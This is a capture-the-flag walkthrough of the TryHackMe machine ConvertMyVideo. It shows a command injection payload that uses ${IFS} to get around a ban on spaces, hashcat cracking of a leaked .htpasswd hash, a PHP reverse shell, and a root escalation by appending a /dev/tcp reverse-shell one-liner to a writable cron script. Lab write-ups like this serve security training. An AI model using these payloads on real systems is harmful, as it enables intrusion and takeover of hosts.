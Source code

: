# ConvertMyVideo [THM](https://tryhackme.com/room/convertmyvideo)

![machine=01](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/machine-01.png)


### Recon

Lets kick off our enumeration stage with `nmap`:
`nmap -sC -sV -p -A 10.10.79.56 -oN nmap.result`

![nmap-result-02](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/nmap-02.png)

Here are the results:	

Lets go take a look at this Apache server.


## Apache 

Lets navigate to the site:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/site-03.png)

Lets open Burp, and capture a request for some factitious youtube video ID.
We get following error message from the server:

![burp-04](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-04.png)

Trying to send a legitamte youtube video ID stalls the server for a copule of minutes then 
returns nothing. So while waiting i decided to try directory busting. 


### Directory Busting

I used `ffuf`:

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.
3-medium.txt:FUZZ -u http://10.10.79.56/FUZZ`

With it came some itersting results: 

![ffuf-res-05](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/ffuf-res-05.png)


Visiting this URL prompts us for credetials: 

![pass-prompt-06](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pass-prompt-06.png)

It looks like a basic authintication scheme.

![burp-pass-07](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-pass-07.png)

Yes is it is.  HTTP Basic authentication is the simplest technique for 
enforcing access controls to web resources because it doesnâ€™t require cookies, session 
identifiers, or login pages; rather, HTTP Basic authentication uses standard fields in the 
HTTP header, obviating the need for handshakes.

This matters because, it means the web server is using `.htaccess` and `.htpasswd` files 
to authinticate users. `.htpasswd` is of special interest to us since it hold user credetials.  
If we can find this file on the server we have our entry point. 


### Command Injection

Lets start playing around with the HTTP headers to try and provoke server errors.
What if instead of going to youtube, we point the server to its self? 

![server-err-08](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/server-err-08.png)


Okay, the backend is using `youtube-dl`. It seems like whatever we pass to the `yt_url` 
parameter in our `POST` request, is passed to `youtube-dl` . 
  
`youtube-dl` is an open source project, you can find [here](https://github.com/ytdl-org/youtube-dl) 

Based on its github, the syntax is as follows: 
`youtube-dl [OPTIONS] URL`

In essense, whatever we supply to the `yt_url` parameter becomes the <URL> part above.
Lets try to break out of the `youtube-dl` command. 

To do that, im thinking of a few things, we can either try to send a cariage return sequance 
(works sometimes, not in this case). 

We can try Openining a subshell with backticks \`\` or $() to give priority to whatever is inside. 
(doesnt work in this case either). 

Or, We could also try to use `||` to execute two commands one after the other. 
This works:

![burp-ls-09](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-ls-09.png)

This is a command injection vulnerability, but we have one major issue, we cant uses spaces.
sending something like `||cat /etc/passwd` will break the execution. 

We have to use an espace sequance. After some experimentations ive found that `${IFS}` works:

![burp-esc-10](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-esc-10.png)

Now we can find the `.htpasswd` file with a simple search: `||find${IPS}-name${IFS}.htpasswd`.
This shows that the file is at `admin/.htpasswd`, lets cat it out: 

![creds-11](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/creds-11.png)


### The Admin Panel

The stored credetials are: `itsmeadmin : $apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/`, 
its an arp1 hash. Can we crack it with `hashcat`? 

`hashcat --help | grep -i arp1`

![hashcat-help-12](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/hashcat-help-12.png)


Lets crack it: 
`hashcat -m 1600 '$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/' /usr/share/wordlists/rockyou.txt`

![pass-13](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pass-13.png)

The credtials to the admin panel are `itsmeadmin : jessie`  Lets log in: 
	
![admin-panel-14](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/admin-panel-14.png)

If we take a look at the source code for the page: 

![admin-source-15](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/admin-source-15.png)

It looks for a "c" parameter in the URL, we can use our previous command injection to try
and find the `index.php` file that runs in the backend for this page:

![index-pos-16](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/index-pos-16.png)

Lets cat it out: 

![index-17](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/index-17.png)

The backend checks if any argument was given to the "c" parameter in the URL.
If so, it execute the `system()` function to run whatever was given to it on the OS. 
 
This is another command injection vulnerability: 

![pwned-18](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pwned-18.png)

Lets send a reverse shell.


### Gaining Access

I like using [pentestmonkey's PHP reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). 

Change the port and ip to your situation: 

![pentest-19](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pentest-19.png)

Start a python server `python3 -m http.server 8888`

And download the file to the target: 

![upload-20](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/upload-20.png)

Start the listener with `nc -lnvp 4242`

Navigate to the file location: 

![navigate-21](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/navigate-21.png)

It stalls, thats a great sign, lets check the listener: 

![shell-22](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/shell-22.png)

Lets move to privilege escalation!


## Privilege Escalation

After looking around a bit, ive found nothing meaningful to exploit. 
Lets fire off `pspy64`:

![priv-esc-23](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/priv-esc-23.png)

We have UID 0 running a script from our user's home directory, Lets check the permissions: 

![perms-24](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/perms-24.png)

We can write to the file, Lets append a reverse shell to it:
`echo '/bin/bash -l > /dev/tcp/10.18.22.182/4242 0<&1 2>&1' >> clean.sh`

A few seconds after setting up the listener we get a connection:

![root-25](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/root-25.png) 
